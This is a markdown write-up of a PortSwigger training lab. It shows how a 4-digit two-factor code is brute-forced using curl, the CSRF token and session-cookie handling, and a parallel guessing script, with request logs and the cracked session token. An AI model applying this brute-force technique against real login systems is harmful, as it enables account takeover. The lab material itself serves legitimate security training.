







# Lab: 2FA bypass using a brute-force attack

Level: #Expert

## Description
Taken from the [portswigger lab](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-bypass-using-a-brute-force-attack):

*This lab's two-factor authentication is vulnerable to brute-forcing. You have already obtained a valid username and password, but do not have access to the user's 2FA verification code. To solve the lab, brute-force the 2FA code and access Carlos's account page.*

Victim's credentials: `carlos:montoya`


#### Knowledge
- [CSRF token](https://portswigger.net/web-security/csrf/tokens)

#### Tools
- [curl cookies](https://everything.curl.dev/http/cookies)


## Enumeration
When Access de lab it would run a website in a random subdomain with the following structure:

`https://[random-32-hex-value].web-security-academy.net/`
The first  page's section looks like:
```
https://0aa80033042384adc0fb6b5e000100c2.web-security-academy.net
```
 

Go to the `My account` send me to `/login` view:

```
https://0aa80033042384adc0fb6b5e000100c2.web-security-academy.net/login
```
 

When use the `carlos:montoya` credentiasl given in the description, send me to `/login2` witch require write a ==4 digits== security code that usually I could check in my email, but in this case. I am gonna play with it and try to write some random values to see what happend
```
https://0aa80033042384adc0fb6b5e000100c2.web-security-academy.net/login2
```
 

The first incorrect code result in `Incorrect security code` error

```
https://0aa80033042384adc0fb6b5e000100c2.web-security-academy.net/login2
```
 


But the second mistake it redirects me to login again.

```
https://0aa80033042384adc0fb6b5e000100c2.web-security-academy.net/login2
```
 
> Note: One interesting thing is that the page still is in `/login2` but it show me the login view

Well, I know that I can bruteforce the 2FA, but before I have to login with the credentials `carlos:montoya` otherwise the 2FA code will not be generate.
So I need to start with the POST request to login. To do that I am going to check the request using the browser inspector (F12 in firefox browser) and click the `log in` button. This send a post request, authentic the `carlos` user, then it redirects me to `/login2` view:

 

Something insteresting is that there is a hidden input `csrf` in the form!, The [CSRF token](https://portswigger.net/web-security/csrf/tokens) allow to track a request secuences. We know that the HTTP is a stateless protocole, thats mean that the protocolo does not have memory between request, every request is a single invocation and it will not care about the rest of the requests. But, the server can give some random value to the client in each response and validate that the next request must have that random value , otherwise reject the request.

Checking the `/login` source html, I can see the hidden input `csrf` that the sever write in the response to the GET `/login` view:

```html
...SNIP...
<form class=login-form method=POST action=[/login](view-source:https://0aa80033042384adc0fb6b5e000100c2.web-security-academy.net/login)>
		<input required type="hidden" name="csrf" value="4N98xysgO5JVh29yd28y97GOy2Orf2Ym">
		<label>Username</label>
		<input required type=username name="username">
		<label>Password</label>
		<input required type=password name="password">
		<button class=button type=submit> Log in </button>
</form>
...SNIP...
```

I am gonna try this. using `curl` to do the POST request without the `csrf` parameter and the response is `Missing parameter 'csrf'`:

```shell
$ curl -s "https://0aa80033042384adc0fb6b5e000100c2.web-security-academy.net/login" --data-raw "username=carlos&password=montoya"                                                                                                               "Missing parameter 'csrf'"
```

So I write a random `csrf` value and I get `Invalid CSRF token (session does not contain a CSRF token)`
```shell
$ curl -s "https://0aa80033042384adc0fb6b5e000100c2.web-security-academy.net/login" --data-raw "csrf=1234&username=carlos&password=montoya"                                                                                                     "Invalid CSRF token (session does not contain a CSRF token)"⏎ 
```

With that response I can suppose what the server does when user request de `/login` view is to **generate a random `csrf` token, send it inside the html response and asociate the `session` cookie with that `csrf` token**

Lets test it with the `-v` swithc to get more requese verbose and see the headers in response:

```shell
$ curl -v "https://0aa80033042384adc0fb6b5e000100c2.web-security-academy.net/login" 

...SNIP...
* Mark bundle as not supporting multiuse                                                                                < HTTP/1.1 200 OK                                                                                                       < Content-Type: text/html; charset=utf-8                                                                                < Set-Cookie: session=YRX4bkaIXF207eEL3xco87CJwdQQHOXJ; Secure; HttpOnly; SameSite=None  

...SNIP...
                        <form class=login-form method=POST action=/login>                                                                           <input required type="hidden" name="csrf" value="DT8oCmo9WJx6NhFGxIQXycv8jVWSyYOD">                                     <label>Username</label>                                                                                                 <input required type=username name="username">                                                                          <label>Password</label>                                                                                                 <input required type=password name="password">                                                                          <button class=button type=submit> Log in </button>                                                                  </form>                                                                                                             </section>    
...SNIP...
```

I can check the `Set-Cookie` `session` in the response and the `csrf` value in the  html form. The cURL command allow to save the cookies set with the `-c` switch. And I can filter the csrf token using  `grep` with a Perl regex:

```shell
$ curl -s -c cookie_session "https://0aa80033042384adc0fb6b5e000100c2.web-security-academy.net/login" | grep -Po '(?<=(csrf" value=")).*(?=">)'
tcBjFitPPsaYYbbO8OQtDvAxTdT2Bfen
```

>Also used the `-s` swithc to avoid curl output more data thand the response content.

The cookie will be stored in the `cookie_session` file:

```shell
$ cat cookie_session                                                                                                    # Netscape HTTP Cookie File                                                                                             # https://curl.haxx.se/docs/http-cookies.html                                                                           # This file was generated by libcurl! Edit at your own risk.                                                                                                                                                                                    #HttpOnly_0aa80033042384adc0fb6b5e000100c2.web-security-academy.net     FALSE   /       TRUE    0       session uZQ01Cw8VDIVw7hJ4afL1YnuAhvrdf3i 
```

Now I am gonna do the POST request to `/login` with `carlos:montoya` credentials and using the `session` cookie and the `csrf` value previously obtained in the GET request to `/login`.

Also I add some `curl` swiths :
- `-v` : Add verbosite to see headers in requests and responses
- `-L` : Allow readirections, because of when I test in the browser I notice the `302` redirection to `/login2` view.
- `-b` : Use the cookie stored in `cookie_session` file.
- `-c` : Save the new cookie ( `Set-Cookie`) if the server response has it.

```shell
	$ curl -v -L -b cookie_session -c cookie_session2 "https://0aa80033042384adc0fb6b5e000100c2.web-security-academy.net/login" --data-raw "csrf=tcBjFitPPsaYYbbO8OQtDvAxTdT2Bfen&username=carlos&password=montoya" 


...SNIP...
> POST /login HTTP/1.1                                                                                                  > Host: 0aa80033042384adc0fb6b5e000100c2.web-security-academy.net                                                       > User-Agent: curl/7.68.0                                                                                               > Accept: */*                                                                                                           > Cookie: session=uZQ01Cw8VDIVw7hJ4afL1YnuAhvrdf3i                                                                      > Content-Length: 70                                                                                                    > Content-Type: application/x-www-form-urlencoded   

...SNIP...

< HTTP/1.1 302 Found                                                                                                    < Location: /login2                                                                                                     * Replaced cookie session="vIPjaskNH2SkQY8apBbMeKPGSyzYHNTU" for domain 0aa80033042384adc0fb6b5e000100c2.web-security-academy.net, path /, expire 0                                                                                             < Set-Cookie: session=vIPjaskNH2SkQY8apBbMeKPGSyzYHNTU; Secure; HttpOnly; SameSite=None                                 < Connection: close                                                                                                     < Content-Length: 0                                                                                                     

...SNIP...

> GET /login2 HTTP/1.1                                                                                                  > Host: 0aa80033042384adc0fb6b5e000100c2.web-security-academy.net                                                       > User-Agent: curl/7.68.0                                                                                               > Accept: */*                                                                                                           > Cookie: session=vIPjaskNH2SkQY8apBbMeKPGSyzYHNTU 

...SNIP...

                    <form class=login-form method=POST>                                                                                         <input required type="hidden" name="csrf" value="OjhKGA7kIlqw3RmK7ve8LoeZw7Yd34nk">                                     <label>Please enter your 4-digit security code</label>                                                                  <input required type=text name=mfa-code>                                                                                <button class=button type=submit> Login </button>                                                                   </form>

...SNIP...

```

In the output above a put the more interesting sections. First check that the first POST request to `/login` hast the cookie `session` stored in `cookie_session` file. after that we get a `302` response which means that we already login and the response also contains a new `session` Cookie that I stored in `cookie_session2` . Next, due to redirection, now GET to `login2` with the new `session` cookie and get a html response with the form to write the 4 digits code and a new `csrf` token hidden.

I made a diagram with the requests flow to give a better view of the [CSRF token](https://portswigger.net/web-security/csrf/tokens) with the cookie session:

 


## Foothold

To bruteforce the 4 digits 2FA code the script must to have the whole cycle starting from the GET request in the `/login` view like the image above.

In this way I need automatizate the process to check a 4 digits value between (0000 - 9999) thats are 10000 values. And I have 2 attemps before login again, So with a random number generator there is 2/10000 possibility to hit the correct code. That means a probability of 0.2% . It does not sound like much but only think that there is a chance that if I made 5000 request, one of them hit the correct answers!, 5000 request can be done in a few minutes. 

But this is true if we do the request secuencially, but this would be slow to achieve, so instead only try 1 guess with a probability 0.1% but with multiprocess requests

> The problem in paralell requests is that when the requests are done in paralell the server not allow the 2 attemps, maybe internally have a counter per user instead per session cookie.


## Script

I wrote the script  `bruteoForce2ALimitGuess.sh` . which does the whole requests cycle mentioned above in `check_2FA()` , this function is execute in 100 multiprocess chunks with a total of 30000 iterations (those values were arbitrary, you can play with it).

I redirect the script STDOUT to the `output.txt` file. In this way I can store the total data and analize it. In this case in another shell I use `tail`  to see the last lineas and use `-f`  switch  to interactive see each update.


```shell
$ ./bruteForece2ALimitGuess.sh > output.txt 
```

```shell
$ tail output.txt -f 
...SNIP...
00110 | 200 | time:0.716482 | bytes:2989 | words:146 | lines:58 | guess:5803                                                                                00132 | 200 | time:0.722079 | bytes:3230 | words:151 | lines:63 | guess:5663                                                                                00140 | 200 | time:0.706397 | bytes:3230 | words:151 | lines:63 | guess:7104                                                                                00136 | 200 | time:0.735682 | bytes:2989 | words:146 | lines:58 | guess:7708                                                                                00113 | 200 | time:0.706893 | bytes:2989 | words:146 | lines:58 | guess:1197                                                                                00108 | 200 | time:0.745938 | bytes:3230 | words:151 | lines:63 | guess:2582                                                                                00142 | 200 | time:0.748699 | bytes:3230 | words:151 | lines:63 | guess:9076                                                                                00127 | 200 | time:0.730441 | bytes:3230 | words:151 | lines:63 | guess:9141                                                                                00129 | 200 | time:0.727770 | bytes:2989 | words:146 | lines:58 | guess:8992                                                                                00133 | 200 | time:0.743757 | bytes:2989 | words:146 | lines:58 | guess:3856                                                                                00125 | 200 | time:0.737743 | bytes:2989 | words:146 | lines:58 | guess:8093                                                                                00137 | 302 | time:0.892812 | bytes:1 | words:0 | lines:1 | guess:1260                                                                                      Found it! use: 1260                                                                                                                                         csrf=WrF6jhOicFWNd14SFlVkodxRu0p6kQFf | session my1VJLuK2cfXRBBs941gGYwTvzlYCcAw    
```

And pwned! if you copy the cooki session in your browser, you will see:
 

### Notes
- Since script execute mulitples process in paralell, maybe we dont see the string `Find it! password...` in the last line. But the script will stop so only we need to check where is the message.
- When I tested in my pc , sometimes found the guesss between 6000 - 18000 attemps.
- Some request return the view to try 2FA code again an other the login form, that is the reason why you will see interleaved of 3230 and 2989 bytes in the content response.
- The bruteforce example had a duration of 30 min aprox.

